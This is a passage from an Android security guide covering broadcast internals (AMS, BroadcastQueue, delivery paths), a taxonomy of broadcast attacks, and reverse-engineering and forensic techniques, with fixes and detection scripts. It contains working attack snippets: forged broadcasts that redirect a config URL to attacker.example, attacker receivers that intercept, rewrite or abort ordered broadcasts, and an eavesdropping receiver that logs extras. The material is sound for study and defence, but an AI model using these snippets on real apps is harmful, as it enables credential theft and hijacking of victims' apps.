                + action + " from pid=" + callingPid + ", uid=" + callingUid;
        Slog.w(TAG, msg);
        throw new SecurityException(msg);
    }
    ...
}
```

That string — `"Permission Denial: not allowed to send broadcast "` followed by the action
and `from pid=…, uid=…` — is *exactly* what the measurement in section 3.4 produced,
character for character. That is how you know the probe is hitting this code path and not
some other check.

4. **Sticky handling.** If `sticky` is set, AMS verifies the `BROADCAST_STICKY` permission,
   refuses sticky broadcasts that also carry a `receiverPermission` (because it could not
   enforce it later), and stores the Intent in `mStickyBroadcasts`.
5. **Collect receivers.** Two separate lookups: `collectReceiverComponents()` asks
   PackageManagerService for manifest declarations, and `mReceiverResolver.queryIntent()`
   walks AMS's own table of runtime registrations.
6. **Enqueue.** Registered receivers go to a parallel dispatch unless the broadcast is
   ordered; manifest receivers always go through the ordered path, because AMS may have to
   start their processes one at a time.

> **🔬 Under the Hood**
> Step 6 explains a behaviour that confuses people: even a *plain* `sendBroadcast()` is
> partly ordered. Runtime-registered receivers get it in parallel, then manifest receivers
> get it serially. That is why a manifest receiver sees the broadcast slightly later than a
> runtime one in the same app, and why `abortBroadcast()` from a runtime receiver on a
> non-ordered broadcast does nothing useful.

### 4.3 Queueing: `BroadcastQueue`

`BroadcastQueue.java` holds two lists per queue instance — `mParallelBroadcasts` and
`mOrderedBroadcasts` — and one state machine, `processNextBroadcast()`.

```java
// frameworks/base/services/core/java/com/android/server/am/BroadcastQueue.java
//   processNextBroadcastLocked(), structure only
// 1. Drain every parallel broadcast: each goes to ALL of its registered
//    receivers immediately, with no waiting.
while (mParallelBroadcasts.size() > 0) {
    r = mParallelBroadcasts.remove(0);
    for (int i = 0; i < r.receivers.size(); i++) {
        Object target = r.receivers.get(i);
        deliverToRegisteredReceiverLocked(r, (BroadcastFilter) target, false, i);
    }
    addBroadcastToHistoryLocked(r);
}

// 2. Then the ordered list, ONE receiver at a time, waiting for each.
//    If the current one has not finished within mConstants.TIMEOUT,
//    broadcastTimeoutLocked() fires: ANR, then move on.
```

`deliverToRegisteredReceiverLocked()` is where the per-receiver permission checks happen,
and it is worth knowing that there are several, in both directions:

```java
// frameworks/base/services/core/java/com/android/server/am/BroadcastQueue.java
//   deliverToRegisteredReceiverLocked(), shape only
// Does the RECEIVER hold the permission the SENDER demanded?
if (r.requiredPermissions != null && r.requiredPermissions.length > 0) {
    for (int i = 0; i < r.requiredPermissions.length; i++) {
        String requiredPermission = r.requiredPermissions[i];
        int perm = checkComponentPermission(requiredPermission,
                filter.receiverList.pid, filter.receiverList.uid, -1, true);
        if (perm != PackageManager.PERMISSION_GRANTED) { skip = true; break; }
    }
}

// Does the SENDER hold the permission the RECEIVER demanded?
if (!skip && filter.requiredPermission != null) {
    int perm = checkComponentPermission(filter.requiredPermission,
            r.callingPid, r.callingUid, -1, true);
    if (perm != PackageManager.PERMISSION_GRANTED) { skip = true; }
}
```

Those two blocks are the asymmetry from section 3.8, in code. `r.requiredPermissions` came
from the **sender's** `sendBroadcast(intent, permission)` call. `filter.requiredPermission`
came from the **receiver's** `registerReceiver(..., broadcastPermission, ...)` or manifest
`android:permission`. They are checked against opposite parties, and a broadcast has to
pass both.

`filter.requiredPermission` is also exactly the field that `dumpsys activity broadcasts`
prints as `requiredPermission=`, which is why that line in the dump is trustworthy: it is
the field the enforcement reads.

### 4.4 Delivery: `IIntentReceiver`, `LoadedApk$ReceiverDispatcher`, `ActivityThread`

When an app calls `registerReceiver`, `ContextImpl.registerReceiverInternal()` does not
send the `BroadcastReceiver` object anywhere — it cannot; objects do not cross process
boundaries. Instead it wraps it:

```java
// frameworks/base/core/java/android/app/ContextImpl.java
//   registerReceiverInternal(), shape only
IIntentReceiver rd = null;
if (receiver != null) {
    if (mPackageInfo != null && context != null) {
        rd = mPackageInfo.getReceiverDispatcher(receiver, context, scheduler,
                mMainThread.getInstrumentation(), true);
    }
}
final Intent intent = ActivityManager.getService().registerReceiverWithFeature(
        mMainThread.getApplicationThread(), mBasePackageName, getAttributionTag(),
        AttributionSource.myAttributionSource(), null, rd, filter,
        broadcastPermission, userId, flags);
```

Three things to take from this:

**The Binder object that AMS holds is a `LoadedApk.ReceiverDispatcher.InnerReceiver`**, not
your receiver. AMS never knows the class name of your `BroadcastReceiver` — which is
precisely why `dumpsys activity broadcasts` cannot print it, and why the Frida hook in
`scripts/hook-broadcast.js` is the only way to recover it.

**`registerReceiverWithFeature` returns an `Intent`.** That is the sticky value: non-null
means a retained sticky broadcast matched your filter and is being handed to you at
registration time.

**`flags` is the last parameter** — the API 33 `RECEIVER_EXPORTED` / `RECEIVER_NOT_EXPORTED`
bits go here, and on older releases the parameter either does not exist or ignores those
bits.

Inbound, the path is:

```
AMS BroadcastQueue.performReceiveLocked()
  -> IIntentReceiver.performReceive()            [oneway Binder txn]
     -> LoadedApk$ReceiverDispatcher$InnerReceiver.performReceive()   [binder thread]
        -> ReceiverDispatcher.performReceive()
           -> new Args(intent, resultCode, data, extras, ordered, sticky, sendingUser)
              -> mActivityThread.post(args.getRunnable())             [main Looper]
                 -> Args.getRunnable().run()
                    -> BroadcastReceiver.onReceive(context, intent)
```

`Args` is the class that carries a delivery across the Handler hop, and it holds
`ordered`, `sticky` and the incoming result state. Hooking `Args.getRunnable()` or
`InnerReceiver.performReceive()` therefore catches **every** context-registered delivery in
the process, no matter which class handles it and whether or not that class has been
loaded yet. That is the technique `scripts/hook-broadcast.js` uses, and it is why the
script does not need to enumerate loaded classes the way a naive receiver hook does.

Manifest-declared receivers take a completely different route, because AMS may have to
start the process first:

```java
// frameworks/base/core/java/android/app/ActivityThread.java
//   handleReceiver(ReceiverData data), shape only
String component = data.intent.getComponent().getClassName();
LoadedApk packageInfo = getPackageInfoNoCheck(data.info.applicationInfo, ...);
ClassLoader cl = packageInfo.getClassLoader();
BroadcastReceiver receiver =
        packageInfo.getAppFactory().instantiateReceiver(cl, component, data.intent);
...
receiver.setPendingResult(data);
receiver.onReceive(context, data.intent);
```

A **fresh instance per broadcast**, created by reflection from the class name in the
Intent's component. It is thrown away afterwards. This is why instance state in a manifest
receiver never persists, and why `data.info` — a `ActivityInfo`/`ResolveInfo` carrying
`exported` and `permission` — is available at this point, which the hook in
`scripts/hook-broadcast.js` reports.

### 4.5 One complete path, traced end to end

Take the measured example: `adb shell am broadcast -a android.intent.action.LOCALE_CHANGED`
run as root, reaching `com.miui.calculator`'s runtime receiver.

| # | Where | What happens |
|---|---|---|
| 1 | `am` (a shell process, uid 0 under `su`) | `ActivityManagerShellCommand.runSendBroadcast()` builds the Intent and calls `IActivityManager.broadcastIntentWithFeature()` with a `resultTo` receiver, which is what makes it **ordered** |
| 2 | kernel, binder driver | `ioctl(BINDER_WRITE_READ)` carries the parcel; the driver stamps `sender_euid = 0` |
| 3 | `system_server` | `ActivityManagerService.broadcastIntentLocked()` runs. `isProtectedBroadcast("android.intent.action.LOCALE_CHANGED")` returns **true** |
| 4 | `system_server` | Caller uid 0 is a platform uid, so the check passes. At uid 2000 it would have thrown here |
| 5 | `system_server` | `mReceiverResolver.queryIntent()` finds the `BroadcastFilter` registered by pid 4303 / uid 10141; `collectReceiverComponents()` adds manifest receivers |
| 6 | `system_server` | A `BroadcastRecord` is built and enqueued; because `resultTo` is non-null it goes on the **ordered** list |
| 7 | `system_server` | `processNextBroadcastLocked()` picks it up; `deliverToRegisteredReceiverLocked()` finds `filter.requiredPermission == null`, so no check is skipped |
| 8 | `system_server` | `performReceiveLocked()` calls `IIntentReceiver.performReceive()` — a `oneway` Binder transaction, sender now uid 1000 |
| 9 | `com.miui.calculator`, binder thread | `InnerReceiver.performReceive(intent, 0, null, null, true, false, 0)` — `ordered=true`, `sticky=false` |
| 10 | `com.miui.calculator`, binder thread | Hooked: `Binder.getCallingUid()` returns **1000**, `Process.myUid()` returns **10141** |
| 11 | `com.miui.calculator`, main thread | `Args.getRunnable().run()` calls `onReceive` on `CalculatorApplication$1` |
| 12 | `system_server` | On `finish()`, the record is moved to the history ring buffer, where `dumpsys activity broadcasts` will print it with `caller=` and `extras:` |

Every one of steps 3, 4, 9, 10 and 12 was directly observed on the measured device. Steps
5–8 are inferred from the framework source and from the observable outputs at either end.

---

## 5. Security Perspective

### 5.1 The taxonomy

Every broadcast vulnerability is one of six shapes. Learning the six is worth more than
learning a hundred specific bugs, because the specific bugs are all instances.



| # | Shape | Precondition | Consequence | Where it is proven |
|---|---|---|---|---|
| 1 | **Forgery** | An exported receiver, an action that is not protected | Attacker drives the victim's `onReceive` with chosen extras | [lab-02](labs/lab-02-forge-a-broadcast.md) |
| 2 | **Filter bypass** | An exported receiver, any action | Attacker reaches `onReceive` with `getAction() == null`, skipping every action-gated branch | `AttackerBroadcaster.forgeExplicit()` |
| 3 | **Eavesdropping** | Victim sends an implicit broadcast with no `receiverPermission` | Attacker reads the extras by registering a filter and doing nothing else | `AttackerBroadcaster.eavesdrop()` |
| 4 | **Result harvesting** | Victim's receiver calls `setResultData()` with anything sensitive | Attacker sends an ordered broadcast and reads the result in their own process | [lab-03](labs/lab-03-ordered-broadcasts-and-interception.md) |
| 5 | **Interception** | Victim relies on an ordered broadcast, sent without `FLAG_RECEIVER_NO_ABORT` | Attacker registers at a higher priority and calls `abortBroadcast()`; victim silently stops working | [lab-03](labs/lab-03-ordered-broadcasts-and-interception.md) |
| 6 | **Sticky exposure** | Victim uses `sendStickyBroadcast` | Any app reads the last value at any later time | section 3.7 |

### 5.2 The central bug: a forgeable action beside a protected one

This is the most common broadcast finding in shipped Android applications, and it is
written by careful developers. The reasoning is:

> `BOOT_COMPLETED` is a protected broadcast. Only the system can send it. Therefore
> anything arriving at this receiver came from the system. Therefore I can trust it.

The first two sentences are true. The third does not follow.

#### Vulnerable code

```java
// examples/ConfigSyncReceiver-vulnerable.java — abridged; read the full file for all six bugs
public class ConfigSyncReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        SharedPreferences prefs =
                context.getSharedPreferences("vault_config", Context.MODE_PRIVATE);

        String url = intent.getStringExtra("config_url");
        if (url != null) {
            prefs.edit().putString("config_url", url).apply();   // persists
        }

        boolean force = intent.getBooleanExtra("force", false);
        if (force || Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
            syncNow(context, prefs.getString("config_url", DEFAULT));
        }
    }
}
```

```xml
<!-- examples/AndroidManifest-vulnerable.xml — the declaration that makes it reachable -->
<receiver android:name=".ConfigSyncReceiver" android:exported="true">
    <intent-filter android:priority="500">
        <action android:name="android.intent.action.BOOT_COMPLETED" />
        <action android:name="com.example.vault.ACTION_SYNC_CONFIG" />
    </intent-filter>
</receiver>
```

#### Why developers write it

Three pressures, all reasonable in isolation:

1. **The receiver must be exported** to hear `BOOT_COMPLETED`. That is not a choice.
2. **Two actions in one filter is less code** than two receivers, and the framework
   encourages it by allowing multiple `<action>` children.
3. **The custom action name looks private.** `com.example.vault.ACTION_SYNC_CONFIG` is not
   in any public API. Developers reason that nobody knows the string. But the string is in
   the manifest, which is in the APK, which anybody can download and decode in one command.

#### Static detection

```bash
# host — decode and look for a filter mixing a protected action with an app-defined one
apktool d -f target.apk -o work/
python3 - <<'PY'
import re, xml.etree.ElementTree as ET
NS = '{http://schemas.android.com/apk/res/android}'
t = ET.parse('work/AndroidManifest.xml')
for r in t.iter('receiver'):
    for f in r.findall('intent-filter'):
        acts = [a.get(NS + 'name') for a in f.findall('action')]
        system = [a for a in acts if a and a.startswith('android.')]
        custom = [a for a in acts if a and not a.startswith('android.')]
        if system and custom:
            print('MIXED FILTER:', r.get(NS + 'name'))
            print('   system:', system)
            print('   custom:', custom)
PY
```

A filter with both an `android.*` action and an app-defined one is the signature. Not every
hit is a bug, but every bug of this class is a hit.

#### Dynamic detection and exploitation

```bash
# host — 1. confirm the custom action is not protected ON THIS DEVICE
bash scripts/protected-broadcast-map.sh --is com.example.vault.ACTION_SYNC_CONFIG

# host — 2. drive the receiver
adb shell "am broadcast -a com.example.vault.ACTION_SYNC_CONFIG \
    --es config_url https://attacker.example/c.json --ez force true"

# host — 3. prove the state change PERSISTED (this is the finding, not step 2)
adb shell "run-as com.example.vault cat shared_prefs/vault_config.xml"
```

Step 3 is what turns a reachable component into a vulnerability. A broadcast that runs code
is not interesting. A broadcast that leaves the app pointing at an attacker-controlled
server after the process restarts is.

And then reproduce it from an app, because `adb shell` is uid 2000:

```java
// From AttackerBroadcaster.java — an app declaring ZERO permissions
Intent i = new Intent("com.example.vault.ACTION_SYNC_CONFIG");
i.setPackage("com.example.vault");          // also escapes the API 26 implicit limits
i.putExtra("config_url", "https://attacker.example/c.json");
i.putExtra("force", true);
sendBroadcast(i);
```

#### The fix, as code

```java
// examples/ConfigSyncReceiver-fixed.java — the essential three lines
@Override
public void onReceive(Context context, Intent intent) {
    // 1. Check the action FIRST. An exported receiver can be addressed by
    //    component with any action, or none. The filter did not do this for you.
    if (!Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) return;

    // 2. Do not take a URL from a message. Take a key into an allowlist.
    // 3. Do the sensitive work in a receiver that is NOT exported.
    ConfigSyncScheduler.enqueueOneOffSync(context);
}
```

Plus the structural change: split the receiver so the sensitive action moves to a
runtime registration with `RECEIVER_NOT_EXPORTED`, sent to with `setPackage()` and a
`signature` permission. The full remediation is in
[`examples/ConfigSyncReceiver-fixed.java`](examples/ConfigSyncReceiver-fixed.java) and
[`examples/AndroidManifest-fixed.xml`](examples/AndroidManifest-fixed.xml).

#### Honest severity

| Situation | Severity | Reasoning |
|---|---|---|
| Exported receiver, protected action only, action checked | **Informational** | Not reachable. Note it and move on. |
| Exported receiver, forgeable action, `onReceive` only writes a log line | **Low** | Reachable, no consequence. |
| Forgeable action changes an in-memory flag, lost on restart | **Low / Medium** | Reachable, transient consequence. |
| Forgeable action persists attacker data used by later network calls | **High** | Reachable, persistent, leads to a second-order compromise. |
| Forgeable action triggers an action with real-world effect — a payment, a wipe, a message send | **High / Critical** | Reachable, irreversible. |
| Receiver leaks a token via `setResultData` on an ordered broadcast | **High** | Credential theft with no permission and no user interaction. |

> **⚠️ Warning**
> "The application exports a BroadcastReceiver" is not a finding, and a report full of them
> is how a security team learns to ignore your reports. On the measured device, of 1,438
> live runtime filters, **1,227 had no protection at all** — that is the normal state of
> an Android device, not a list of 1,227 vulnerabilities. What makes any one of them a
> finding is a forgeable action *plus* a demonstrated consequence.

### 5.3 Ordered-broadcast interception

The primitive: register a filter for the victim's ordered action at a priority above
theirs, and call `abortBroadcast()`.

```java
// attacker app, no permissions
IntentFilter f = new IntentFilter("com.example.vault.SYNC_COMPLETE");
f.setPriority(Integer.MAX_VALUE);
registerReceiver(new BroadcastReceiver() {
    @Override public void onReceive(Context c, Intent i) {
        Log.i("attacker", "carried: " + getResultData());
        setResultData("tampered");   // rewrite what the next receiver sees
        abortBroadcast();            // or make sure there is no next receiver
    }
}, f);
```

What this buys, in order of value:

**Reading the carried result.** Everything an earlier receiver put in `setResultData()` /
`setResultExtras()` is visible. If any of them is a token, you have it.

**Rewriting it.** Later receivers see your value. If the chain implements a decision — "the
first receiver that claims this message handles it" — you take over the decision.

**Suppressing it.** Downstream receivers never see the broadcast and are not told. A
security agent that reacts to an ordered broadcast can be silenced this way.

**Stalling it.** You have up to `bcast_timeout` (10 s foreground, 60 s background, measured)
before AMS gives up on you. A receiver that deliberately sleeps holds up every downstream
receiver for that long, once per broadcast. Repeated, it is a usable denial of service.

**Registering at runtime hides it.** Priority set with `filter.setPriority()` on a runtime
registration appears in no manifest, so a reviewer diffing manifests across releases never
sees it appear. It *does* appear in `dumpsys activity broadcasts`, which is how you find
it in someone else's app.

Defences, in the order a developer should apply them:

1. **Do not use an ordered broadcast** unless you need the ordering. Most do not.
2. **`FLAG_RECEIVER_NO_ABORT`** on the send, if you do.
3. **`receiverPermission`** at signature level on the send — an attacker who cannot receive
   cannot intercept.
4. **`setPackage()`** if the chain is internal, which makes it unreachable from outside.
5. **`LocalBroadcastManager`** or a plain in-process callback if it never needed to leave
   the app.

### 5.4 Eavesdropping — the attack that sends nothing

The cheapest attack in the chapter, and the one most likely to be present.

```java
// attacker app, no permissions, sends nothing, logs nothing in the victim
IntentFilter f = new IntentFilter("com.example.vault.SYNC_COMPLETE");
registerReceiver(new BroadcastReceiver() {
    @Override public void onReceive(Context c, Intent i) {
        for (String k : i.getExtras().keySet()) Log.i("attacker", k + "=" + i.getExtras().get(k));
    }
}, f);
```

The precondition is entirely on the victim's side: an implicit broadcast — no
`setPackage()`, no `setComponent()` — sent without a `receiverPermission`. Everything in
the extras goes to every app that registered a matching filter.

What people put in there, in roughly descending order of how often it appears in real
assessments: session identifiers and auth tokens, account identifiers and email addresses,
device identifiers, file paths inside the app's private directory, and internal state that
makes a subsequent attack easier.

This is invisible in a manifest. The victim's manifest says nothing about what it *sends*.
The only ways to find it are:

```bash
# host — hook the send side and read every outbound broadcast
frida -U -f com.example.vault -l scripts/hook-broadcast.js
# then: bc.sends()
```

```bash
# host — or read the history, which records extras verbatim
python3 scripts/receiver-surface.py --history --with-extras
```

```bash
# host — or grep the decompiled source
jadx -d out target.apk
grep -rn "sendBroadcast" out/sources/ | grep -v "setPackage\|LocalBroadcast"
```

### 5.5 Broadcasts as a wake-up and background-start primitive

Two capabilities follow from being able to send a broadcast to another app, and both are
worth more than they first appear.

**Waking a dormant app.** A manifest receiver starts a process that is not running. Since
API 26 an *implicit* broadcast will not do that, but an explicit one will —
`setPackage("com.victim")` — and `FLAG_INCLUDE_STOPPED_PACKAGES` (`0x20`) reaches even
apps in the stopped state. This is how you get a target's code running so you can attack
it, and it is how malware keeps a persistent partner alive.

**Background activity starts.** For a window after receiving a broadcast — measured at
`bcast_allow_bg_activity_start_timeout = +10s0ms` on the device — the receiving app may
start an Activity from the background. A forged broadcast to a receiver that then launches
a screen is a way to put a UI in front of a user without a tap. Combined with an activity
that trusts its Intent, it becomes a phishing surface.

### 5.6 Real vulnerability classes, without invented identifiers

> **⚠️ Warning**
> **This chapter cites no CVE identifiers.** The repository's accuracy rule is that a CVE
> number is either verified or omitted, and describing the class of issue is preferred to
> guessing an identifier. Every pattern below is a well-documented class that recurs;
> where you need a specific reference for a report, look it up in the Android Security
> Bulletins yourself and cite what you actually read.

| Class | Shape | Where it recurs |
|---|---|---|
| **Attribution-referrer forgery** | An analytics or attribution SDK trusts `com.android.vending.INSTALL_REFERRER`, which is **measured as forgeable** on the device. Any app can claim credit for an install, or inject data into the app's analytics. | Attribution SDKs, ad networks, growth tooling |
| **Push-payload forgery** | A receiver for `com.google.android.c2dm.intent.RECEIVE` — **measured as forgeable** — acts on the payload without checking that the sender held the SDK's signature permission. | Older push integrations, in-house push implementations |
| **Privileged system receiver reachable by an ordinary app** | A preinstalled or vendor app declares an exported receiver whose `onReceive` performs a privileged action, relying on obscurity. The app runs at a platform uid, so the action is genuinely privileged. | OEM builds, carrier apps. This is the highest-impact class and the reason to enumerate preinstalled packages, not just the target. |
| **Ordered-broadcast credential leak** | A receiver puts a token into `setResultData()`. Any app that sends the broadcast collects it. | Apps that built an internal RPC out of ordered broadcasts |
| **SMS / OTP interception** | High-priority receiver plus `abortBroadcast()`. The SMS path itself is now restricted to the default SMS app; the *pattern* survives on any app-defined ordered broadcast. | Banking trojans, historically |
| **Sticky broadcast disclosure** | Deprecated API still in use, retained value readable by anyone. | Long-lived codebases |
| **Debug/test receiver in a release build** | A receiver that enables verbose logging, switches the API endpoint to staging, or dumps state — left exported. | Every large app, eventually |

### 5.7 OWASP MASVS / MASTG mapping

| Identifier | Relevance |
|---|---|
| **MASVS-PLATFORM-1** — "The app uses IPC mechanisms securely" | The direct control. Exported receivers, unguarded runtime registrations, implicit broadcasts carrying data, and ordered-broadcast results all fall here. |
| **MSTG-PLATFORM-4** (MASVS v1) — "The app does not export sensitive functionality through IPC facilities" | The v1 wording, still what most report templates use. |
| **MASVS-STORAGE-2** — "sensitive data is not exposed unintentionally" | Broadcast extras recorded in the `dumpsys` history in cleartext, and sticky broadcasts, are storage exposure as much as IPC exposure. |
| **MASVS-CODE-4** — "the app validates and sanitises all untrusted inputs" | An `Intent` arriving at `onReceive` is untrusted input. The missing `getAction()` check is the canonical failure. |

A practical mapping for a report: **the finding is MASVS-PLATFORM-1; the impact is
whatever the state change is.** Do not file "exported receiver" against PLATFORM-1 with no
impact — file it as informational or not at all.

### 5.8 How malware uses broadcasts

| Technique | Mechanism | Detection |
|---|---|---|
| **Persistence** | `BOOT_COMPLETED` manifest receiver restarts the payload after reboot. Protected, so it cannot be *forged*, but any app may *listen* for it. | `cmd package query-receivers -a android.intent.action.BOOT_COMPLETED` — 214 receivers on a stock device, so the presence of one proves nothing; the receiver's behaviour does. |
| **Resurrection pairs** | Two apps each register for the other's `PACKAGE_REMOVED` / `PACKAGE_REPLACED` and reinstall or restart the partner. | Both actions are protected, so the *system* is the sender; the pattern is visible in the receiver list of both apps. |
| **Screen-state timing for overlays** | Register for `SCREEN_ON` / `USER_PRESENT` to know exactly when a user is looking, then draw an overlay. | Both protected — the malware listens, it does not send. |
| **Interception** | High-priority ordered receiver plus `abortBroadcast()`. | Priority values in `dumpsys activity broadcasts` and in the manifest. Anything at `Integer.MAX_VALUE` deserves a look. |
| **Command and control over broadcasts** | Two cooperating apps talk over a custom action instead of a socket, so there is no network trace. | Only visible at runtime: the actions appear in the AMS table and nowhere else. This is a case where the runtime enumeration in this chapter finds what nothing else does. |
| **Waking dormant components** | `FLAG_INCLUDE_STOPPED_PACKAGES` plus `setPackage()`. | Flag `0x20` in the history record. |

### 5.9 How a forensic analyst uses broadcasts

The broadcast history is one of the highest-value volatile artefacts on a live Android
device, and it is destroyed by a reboot.

```bash
# host — capture FIRST, before anything is restarted
adb shell "dumpsys activity broadcasts" > broadcasts-$(date +%s).txt
python3 scripts/receiver-surface.py --dumpsys-file broadcasts-*.txt --history --with-extras
```

What it gives you:

| Artefact | Value |
|---|---|
| `caller=<pkg> pid=<n> uid=<n>` | **The only sender attribution that exists anywhere.** |
| `extras: Bundle[{...}]` | The payload, in cleartext. Measured: a `token` extra was recorded verbatim. |
| `enqueueClockTime` / `dispatchTime` / `finishTime` | Wall-clock and relative timing; useful for sequencing an incident. |
| `Deliver +Nms #k: BroadcastFilter{...}` | Every recipient, in order, with timing — so you can see who was listening at the moment. |
| `resultAbort=true` | Somebody aborted the chain. On an app's own ordered broadcast, that is interception. |
| The `Registered Receivers` block | Every runtime registration that existed at capture time, including from processes that have since died. |

The history is a ring buffer — 50 records per queue on the measured device — so it covers
minutes, not hours, on a busy device. Capture early.

---

## 6. Reverse Engineering Perspective

### 6.1 What a receiver looks like in JADX output

A manifest-declared receiver is trivial to find: the class extends `BroadcastReceiver` and
its name is in the manifest. The interesting work is finding the runtime ones.

```java
// jadx output — the classic manifest receiver
public class ConfigSyncReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String stringExtra = intent.getStringExtra("config_url");
        ...
    }
}
```

```java
// jadx output — a RUNTIME registration. This is what you are hunting.
public class VaultApplication extends Application {
    @Override
    public void onCreate() {
        super.onCreate();
        IntentFilter intentFilter = new IntentFilter("com.example.vault.ACTION_WIPE_CACHE");
        registerReceiver(new BroadcastReceiver() {          // -> VaultApplication$1
            @Override
            public void onReceive(Context context, Intent intent) { ... }
        }, intentFilter);

        IntentFilter intentFilter2 = new IntentFilter("com.example.vault.SYNC_COMPLETE");
        intentFilter2.setPriority(999);                     // <-- the interception marker
        registerReceiver(new SyncResultWatcher(), intentFilter2);
    }
}
```

Four recognisable shapes, and the anonymous-inner-class form is the one that defeats naive
tooling:

| Shape | JADX signature | Notes |
|---|---|---|
| Named receiver class | `class Foo extends BroadcastReceiver` | Easy. Grep for `extends BroadcastReceiver`. |
| Anonymous inner class | `new BroadcastReceiver() { ... }` compiled to `Outer$1` | **A class-name sweep misses this.** Measured in the wild: `com.miui.calculator.CalculatorApplication$1`. |
| Lambda / method reference | Rare — `BroadcastReceiver` is an abstract class, not an interface, so it cannot be a lambda | Not a concern. |
| Reflectively registered | `Class.forName(...)` then `registerReceiver` via reflection | Only a hook finds it. |

### 6.2 The Smali signatures

Obfuscation renames classes and methods but cannot rename framework methods, because the
framework resolves them by name at runtime. So the framework call sites survive
everything, and they are what you grep for.

**A runtime registration:**

```smali
# smali — registerReceiver(BroadcastReceiver, IntentFilter)
new-instance v0, Landroid/content/IntentFilter;
const-string v1, "com.example.vault.ACTION_WIPE_CACHE"
invoke-direct {v0, v1}, Landroid/content/IntentFilter;-><init>(Ljava/lang/String;)V

new-instance v2, La/b/c/d$1;                       # obfuscated anonymous receiver
invoke-direct {v2, p0}, La/b/c/d$1;-><init>(La/b/c/d;)V

invoke-virtual {p0, v2, v0}, La/b/c/d;->registerReceiver(
    Landroid/content/BroadcastReceiver;
    Landroid/content/IntentFilter;
)Landroid/content/Intent;
```

Three things you can read off that even though every app class is renamed:

- the **action string**, in the `const-string` — action strings are never obfuscated,
  because they have to match a string the sender used;
- the **overload**, from the descriptor: two arguments, so **no permission and no export
  flag**;
- the **return type**, `Landroid/content/Intent;` — the sticky value, which the code here
  discards.

**Priority being set, which is the interception marker:**

```smali
# smali — filter.setPriority(999)
const/16 v3, 0x3e7
invoke-virtual {v0, v3}, Landroid/content/IntentFilter;->setPriority(I)V
```

`const/16 v3, 0x3e7` is 999. A `const v3, 0x7fffffff` is `Integer.MAX_VALUE`, and whoever
wrote it wanted to be first.

**An abort:**

```smali
# smali — abortBroadcast()
invoke-virtual {p0}, Landroid/content/BroadcastReceiver;->abortBroadcast()V
```

**A result being set — the leak channel:**

```smali
# smali — setResultData(token)
invoke-virtual {p0, v5}, Landroid/content/BroadcastReceiver;->setResultData(Ljava/lang/String;)V
```

**The API 33 flags, as literals:**

```smali
# smali — registerReceiver(r, filter, RECEIVER_NOT_EXPORTED)
const/4 v3, 0x4                                    # RECEIVER_NOT_EXPORTED
invoke-virtual {p0, v2, v0, v3}, Landroid/content/ContextWrapper;->registerReceiver(
    Landroid/content/BroadcastReceiver;
    Landroid/content/IntentFilter;
    I
)Landroid/content/Intent;
```

`0x4` is `RECEIVER_NOT_EXPORTED`, `0x2` is `RECEIVER_EXPORTED`. Reading the constant is the
fastest way to check export state in an obfuscated build.

### 6.3 What obfuscation does, and does not do

| Element | Survives obfuscation? | Why |
|---|---|---|
| The action string | **Yes, always** | It is a protocol value. Both ends must agree on it, so it cannot be renamed. |
| `registerReceiver` / `sendBroadcast` / `abortBroadcast` call sites | **Yes** | Framework methods are resolved by name against `android.jar`. |
| The receiver class name | No | R8 renames it to `a.b.c$1`. |
| The `<receiver android:name>` in the manifest | Renamed *consistently* with the class | The manifest is rewritten by R8 to match, so it still resolves — but the name tells you nothing. |
| The priority integer | **Yes** | It is a constant. |
| The permission string | **Yes** | Permission names are protocol values too. |
| Whether the code is reached at all | n/a | R8 may remove an unreachable receiver entirely, which is why a receiver in the manifest but absent from the DEX means the manifest entry is stale. |

The consequence for you: **grep for framework call sites and string constants, never for
app class names.** Section 8 has the exact invocations.

### 6.4 Finding the surface when the code is unreadable

When the app is heavily obfuscated, packed, or loads its real DEX at runtime, static
reading fails and the platform's own bookkeeping becomes the reliable source:

```bash
# host — what the platform recorded, obfuscation-proof
adb shell "dumpsys package com.example.target" | sed -n '/Receiver Resolver Table/,/Service Resolver Table/p'

# host — what is actually registered right now, obfuscation-proof
python3 scripts/receiver-surface.py --package com.example.target
```

The platform stores the *resolved* values: the final class names after obfuscation, the
effective `exported` flag as PackageManagerService computed it, and every action string.
A packed app cannot hide from this, because it must register with AMS to receive anything.

---

## 7. Dynamic Analysis

### 7.1 The reconnaissance sequence

Run these in order. Each answers a question the previous one raised.

```bash
# host — 0. know your device. Every version-gated claim depends on this.
adb devices -l
adb shell getprop ro.build.version.release
adb shell getprop ro.build.version.sdk

# host — 1. what does the platform think this app DECLARES? (static half)
adb shell "cmd package query-receivers --brief -a <action>"
adb shell "dumpsys package com.example.target" | sed -n '/Receiver Resolver Table/,/Service/p'

# host — 2. what is ACTUALLY registered right now? (runtime half — the gap)
python3 scripts/receiver-surface.py --package com.example.target

# host — 3. which of those actions exist ONLY at runtime, device-wide?
python3 scripts/receiver-surface.py --third-party --runtime-only

# host — 4. which of those actions can you actually forge?
bash scripts/protected-broadcast-map.sh --check actions.txt

# host — 5. who sent what recently, and what did it carry?
python3 scripts/receiver-surface.py --history --with-extras

# host — 6. get the CLASS names and the send side, which none of the above can
frida -U -f com.example.target -l scripts/hook-broadcast.js
```

### 7.2 The headline: enumerating runtime receivers

**This is the thing no static tool can do**, so it is worth showing the raw material before
the tool that parses it.

```bash
# host
adb shell "dumpsys activity broadcasts" | head -20
```

```
# measured — Redmi M2101K6P, Android 11 / API 30
ACTIVITY MANAGER BROADCAST STATE (dumpsys activity broadcasts)
  Registered Receivers:
  * ReceiverList{f745bed 31369 com.android.systemui/1000/u-1 remote:a077a04}
    app=31369:com.android.systemui/1000 pid=31369 uid=1000 user=-1
    Filter #0: BroadcastFilter{edb8a22}
      Action: "android.intent.action.USER_UNLOCKED"
  * ReceiverList{694630e 20578 com.miui.analytics/10114/u0 remote:50e9509}
    app=20578:com.miui.analytics/u0a114 pid=20578 uid=10114 user=0
    Filter #0: BroadcastFilter{e30a12f}
      Action: "com.xiaomi.onetrack.DEBUG"
      requiredPermission=com.xiaomi.onetrack.permissions.DEBUG_MODE
```

The record format, field by field:

| Field | Meaning |
|---|---|
| `ReceiverList{<hash> <pid> <process>/<uid>/u<userId> <local\|remote>:<hash>}` | One registering `IIntentReceiver`. `local` means the registration is inside `system_server` itself; `remote` means a separate app process. |
| `app=<pid>:<process>/<uidName>` | The owning process. `u0a114` is user 0, app id 114, i.e. uid 10114. |
